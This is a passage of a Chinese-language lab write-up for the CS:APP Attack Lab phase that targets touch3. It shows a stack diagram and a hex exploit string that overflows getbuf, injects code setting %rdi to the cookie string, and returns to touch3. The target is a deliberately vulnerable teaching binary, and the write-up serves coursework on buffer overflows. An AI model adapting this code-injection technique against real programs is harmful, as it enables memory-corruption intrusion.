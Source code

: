 </table>


这样，在执行 getbuf 的 return 语句时，PC 指向 0x5561dc78，即注入代码的起始地址。在注入代码中，设置 %rdi 为指向 cookie 的字符串表示的指针，返回时控制将转移到 touch3。

执行注入代码，返回前：

<table border="1" style="width:30%; text-align:center; margin:auto">
    <tr height="40">
        <td><b>栈</b></td>
        <td colspan="2"><b>栈地址</b></td>
    </tr>
    <tr height="40">
        <td colspan="2">0</td>
        <td>0x5561dcb0</td>
    </tr>
    <tr height="40">
        <td colspan="2">0x6166373939623935</td>
        <td>0x5561dca8</td>
    </tr>
    <tr height="40">
        <td colspan="2">0x4018fa &lt;touch3&gt;</td>
        <td>0x5561dca0=%rsp</td>
    </tr>
    <tr height="40">
        <td colspan="2">0</td>
        <td>0x5561dc98</td>
    </tr>
    <tr height="40">
        <td colspan="2">0</td>
        <td>0x5561dc90</td>
    </tr>
    <tr height="40">
        <td colspan="2">0</td>
        <td>0x5561dc88</td>
    </tr>
    <tr height="40">
        <td colspan="2">0xc35561dca8</td>
        <td>0x5561dc80</td>
    </tr>
    <tr height="40">
        <td colspan="2">0xc7c748004018fa68</td>
        <td>0x5561dc78</td>
    </tr>
</table>

因此编写 exploit.132.txt：

```txt
68 fa 18 40 00 48 c7 c7
a8 dc 61 55 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00 					    /* 字符串末尾0 */
```
